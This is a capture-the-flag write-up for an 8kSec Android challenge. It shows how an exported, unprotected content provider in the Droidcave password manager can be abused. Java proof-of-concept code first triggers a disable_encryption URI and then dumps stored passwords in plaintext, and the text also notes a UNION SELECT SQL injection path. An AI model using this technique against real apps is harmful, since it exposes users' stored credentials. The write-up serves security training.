








*Challenge designed by [8kSec](https://8ksec.io/).*

---

# **<u>Writeup for Droidcave Secure Password Management</u>** 

# **1. Objective:** 

- steal passwords from application database even when user has turned on encryption 

- on click of normal button, without any extra permission, plaintext passwords and decrypted form of encrypted password to be extracted from app database 

- Demonstrate how secure password managers can be compromised through common vulnerabilities 

# **2. Restriction** 

- POC must work on devices upto Android 15 and not require any special permissions. 

# **3. Recon** 

- I start up jadx-gui and load Droidcave.apk. I take note of basic information from AndroidManifest.xml: packagename = "com.eightksec.droidcave" ; minSdkVersion="24"; targetSdkVersion="35" . 

- Based on the objective of challenge, I try to look for vulnerable exported components in app manifest file. Also, it is about stealing secrets from a database so we might be talking about a provider. I notice following: An exported provider PasswordContentProvider. 





- I go to the decompiled code of PasswordContentProvider. I find that it implements the main logic of accessing the database and the content uri are also defined here. The content provider is defined as com.eightksec.droidcave.provider . There are 9 matching cases defined for incoming querying uri. 





- PasswordContentProvider has a switch statement where it defines the code to be implemented against every one of the 9 cases of uri. We scrutinize the code for cases of our interest – disable encryption (case 7) , list passwords (case 1). 

- So it is nearly clear that if we trigger those cases sequentially, we should get a list of plaintext and decrypted encrypted passwords. 

- Another point worth noting is cases 3 and 4 in switch statement are vulnerable to SQL injection, though not required for achieving the challenge objective. 





Since they have concatenation in the SQL text we could do a 'UNION SELECT …' via the concerned uri password_type/ , password_search/* and also retrieve all the passwords. 

# 4. **POC** 

- The POC code is straightforward. Logic implemented is – In click of button, first disable encryption for passwords (if any) followed by listing of passwords. Few code snippets as follows: 

```java
private static final String AUTHORITY = "com.eightksec.droidcave.provider";
private static final Uri DISABLE_ENCRYPTION_URI =
    Uri.parse("content://" + AUTHORITY + "/disable_encryption");
private static final Uri PASSWORDS_URI =
    Uri.parse("content://" + AUTHORITY + "/passwords");
```

```java
Cursor disableCursor = resolver.query(DISABLE_ENCRYPTION_URI, null, null, null, null);
if (disableCursor != null) {
    if (disableCursor.moveToFirst()) {
        Log.i(TAG, "disable_encryption result: " + rowToString(disableCursor));
    }
    disableCursor.close();
}
```

```java
    Cursor cursor = resolver.query(PASSWORDS_URI, null, null, null, null);
    if (cursor == null) {
        Log.e(TAG, "passwords query returned null cursor");
        return;
    }
    int count = 0;
    while (cursor.moveToNext()) {
        Log.i(TAG, "row: " + rowToString(cursor));
        count++;
    }
    cursor.close();
    Log.i(TAG, "Stolen " + count + " password row(s) from DroidCave.");
} catch (Exception e) {
    Log.e(TAG, "passwords query failed", e);
}
```

- In the first run, my POC failed to run, there was an error of provider not found. After study, I found that there is restriction with regard to package visibility introduced in Android 11+. So I had to add following entry in manifest to make it work. 

```xml
<queries>
    <provider android:authorities="com.eightksec.droidcave.provider"/>
</queries>
```

# 5. **Exploitation Evidence** 

- We set up the droidcave app with unencrypted and encrypted passwords turn by turn in our emulator which is of Android 15 version. 











- On running our POC app we are able to list encrypted as well as plaintext passwords. First run there were no password saved, second run, all 2 passwords were in plaintext. In 3<sup>rd</sup> run I entered a third user and all password were encrypted, In addition, I used the secure password generated feature of the droidcave app for username tinah678. 








# 6. **Key Takeaway** 

An exported content provider with no permissions exposes a lot of the app originally intended to provide security. Sensitive uri like disable_encryption are exposed to any 3<sup>rd</sup> party app and make the entire point of encrypting password meaningless. Even if any secure app were allowed to access this app by signature filtering etc, there was sql injection vector in the db query for some content uri handling.
